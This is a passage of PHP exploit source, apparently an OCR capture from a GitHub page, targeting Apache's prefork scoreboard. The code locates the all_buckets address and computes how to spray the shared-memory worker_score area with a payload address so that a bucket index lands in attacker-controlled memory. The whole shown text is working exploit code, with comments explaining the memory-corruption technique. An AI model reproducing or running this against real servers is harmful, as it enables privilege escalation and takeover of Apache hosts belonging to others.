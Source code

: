 		}

		$all_buckets = $i - 0x10;
		o('all_buckets = 0x' . dechex($all_buckets));
		break;
	}

	if(!$all_buckets)
	{
		o('Unable to find all_buckets');
		exit();
	}

	o('');

	# The address of all_buckets will change when apache is gracefully
	# restarted. This is a problem because we need to know all_buckets's
	# address in order to make all_buckets[some_index] point to a memory
	# region we control.

	#
	# Compute potential bucket indexes and their addresses
	#

    o('Computing potential bucket indexes and addresses');

	# Since we have sizeof($workers_pid) MPM workers, we can fill the rest
	# of the ap_score_image-&gt;servers items, so 256 - sizeof($workers_pids),
	# with data we like. We keep the one at the top to store our payload.
	# The rest is sprayed with the address of our payload.

	$size_prefork_child_bucket = 24;
	$size_worker_score = 264;
	# I get strange errors if I use every "free" item, so I leave twice as
	# many items free. I'm guessing upon startup some
	$spray_size = $size_worker_score * (256 - sizeof($workers_pids) * 2);
	$spray_max = $addresses['shm'][1];
	$spray_min = $spray_max - $spray_size;

